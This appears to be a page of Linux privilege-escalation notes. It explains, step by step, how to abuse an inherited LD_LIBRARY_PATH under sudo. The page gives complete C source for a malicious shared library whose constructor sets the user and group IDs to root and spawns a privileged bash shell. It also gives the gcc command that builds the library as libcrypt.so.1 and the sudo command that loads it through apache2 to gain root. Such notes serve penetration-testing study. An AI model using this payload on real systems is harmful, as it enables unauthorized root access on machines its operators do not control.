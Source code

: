### **Steps to Identify and Exploit LD_LIBRARY_PATH**

1.  Verify which environment variables are being inherited  
    `sudo -l`  
    
    ![](../../../img/Linux-Environment/44.png)
    
2.  Identify the shared libraries required by the target application (e.g., apache2):  
    `ldd /usr/sbin/apache2`  
    
    ![](../../../img/Linux-Environment/45.png)

    ??? info "NOTE"

        the library libcrypt.so.1 is chosen due to its common use and effectiveness.
    
3.  Create  `library_path.c` C file that includes a constructor function to execute desired commands upon loading:
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void inject()__attribute__((constructor));
    
    void inject() {
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
    }
    ```
    
    ??? info "NOTE"

        The constructor attribute is a special function attribute in GCC. It instructs the compiler to automatically execute the annotated function before main() is called, allowing your commands to run as soon as the shared library is loaded..
    
4.  Compile the C file into a shared library with the same name as the target library:  
    `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
    
5.  Run the target application with sudo, setting LD_LIBRARY_PATH to include the directory containing the malicious library:  
    `sudo LD_LIBRARY_PATH=. apache2`  

    ![](../../../img/Linux-Environment/46.png)